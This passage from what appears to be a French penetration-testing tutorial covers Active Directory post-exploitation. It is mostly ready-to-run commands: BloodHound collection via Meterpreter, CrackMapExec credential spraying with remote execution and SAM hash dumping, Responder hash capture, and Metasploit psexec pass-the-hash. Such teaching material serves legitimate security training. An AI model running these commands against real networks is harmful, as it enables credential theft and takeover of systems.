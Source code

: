 ```
# Collecte de données avec SharpHound depuis Meterpreter
meterpreter > load powershell
meterpreter > powershell_import /path/to/SharpHound.ps1
meterpreter > powershell_execute "Invoke-BloodHound -CollectionMethod All"
meterpreter > download C:\\Users\\Administrator\\Documents\\BloodHound.zip /home/kali/pentest/

# Analyse avec BloodHound
sudo neo4j console &
bloodhound &
```

> **POURQUOI ?**  
> BloodHound permet d'identifier rapidement des chemins d'attaque complexes dans Active Directory qui seraient difficiles à découvrir manuellement. Il est particulièrement utile pour identifier les opportunités d'élévation de privilèges et de mouvement latéral.

### CrackMapExec pour le mouvement latéral

```bash
# Installation si nécessaire
pip3 install crackmapexec

# Utilisation avec des identifiants obtenus
crackmapexec smb 192.168.2.0/24 -u Administrator -p 'P@ssw0rd123!' --shares

# Exécution de commandes à distance
crackmapexec smb 192.168.2.0/24 -u Administrator -p 'P@ssw0rd123!' -x 'whoami'

# Dump des hachages SAM
crackmapexec smb 192.168.2.0/24 -u Administrator -p 'P@ssw0rd123!' --sam
```

### Responder pour la capture de hachages

```bash
# Installation si nécessaire
sudo apt install responder

# Lancement de Responder
sudo responder -I eth0 -wrf

# Utilisation des hachages capturés dans Metasploit
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
msf6 exploit(windows/smb/psexec) > set RHOSTS 192.168.2.100
msf6 exploit(windows/smb/psexec) > exploit
```

## Automatisation de la post-exploitation
